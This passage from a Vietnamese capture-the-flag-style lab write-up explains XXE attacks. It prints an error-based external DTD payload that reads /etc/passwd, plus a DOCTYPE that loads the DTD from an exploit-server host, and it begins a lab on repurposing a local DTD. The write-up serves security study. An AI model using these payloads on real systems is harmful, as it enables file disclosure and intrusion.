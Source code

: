 ==>Ý tưởng ở đây là ta sẽ tìm cách thay thế chuỗi HELLO thành 1 nội dung trang web hiển thị cùng với error message, ta xây dựng 1 file external DTD sau:

```bash
<!ENTITY % file SYSTEM "file:///etc/passwd"
<!ENTITY % xxe "<!ENTITY &#x25; stealer SYSTEM 'abc/%file;'>">
%xxe;
%stealer;
```

![alt text](./img/lab6-2.png)

-Viết 1 DOCTYPE để gửi tới trang web gọi file external này:

```xml
<!DOCTYPE prochicken[
<!ENTITY % inject SYSTEM "https://exploit-0a7d000a034f83fa81ec2edc01150099.exploit-server.net/exploit.dtd">
%inject;
]>
```



## Lab: Exploiting XXE to retrieve data by repurposing a local DTD

- ```Describe```: Biết rằng hệ thống sử dụng GNOME desktop và local DTD thường được đặt tại "/user/share/yelp/dtd/docbookx.dtd", trong đó chứa entity có tên "ISOamso".
-END goals: Cần tái sử dụng local DTD, kích hoạt lỗi phân tích cú pháp XML, từ đó đọc nội dung file /etc/passwd.

- Trong lab này, không bị filter các kí tự như "&" và "%", thử đọc file /etc/passwd như các lab đầu:
